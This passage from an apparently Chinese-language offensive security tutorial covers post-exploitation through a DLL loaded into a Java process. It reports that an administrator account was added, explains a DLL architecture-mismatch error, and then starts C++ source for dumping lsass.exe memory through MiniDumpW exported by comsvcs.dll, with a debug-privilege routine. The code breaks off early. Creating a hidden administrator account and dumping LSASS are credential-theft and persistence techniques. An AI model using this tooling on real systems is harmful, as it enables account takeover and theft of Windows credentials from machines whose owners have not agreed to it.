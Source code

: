 至此管理员用户添加成功。

当DLL的编译架构与Java进程的位数不同，加载会失败，抛出：`Can't load AMD 64-bit .dll on a IA 32-bit platform。`

![](../../../static/images/2022-08-11-22-06-15.png)

这个问题只需要调整DLL的编译架构就行：

![](../../../static/images/2022-08-11-22-06-31.png)

同样的我们还可以调用comsvcs.dll导出的MiniDumpW转储lsass.exe进程的内存。

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#pragma comment( lib, "Dbghelp.lib" )

typedef HRESULT(WINAPI* _MiniDumpW)(DWORD arg1, DWORD arg2, PWCHAR cmdline);

bool EnableDebugPrivilege()
{
    HANDLE hThis = GetCurrentProcess();
    HANDLE hToken;
```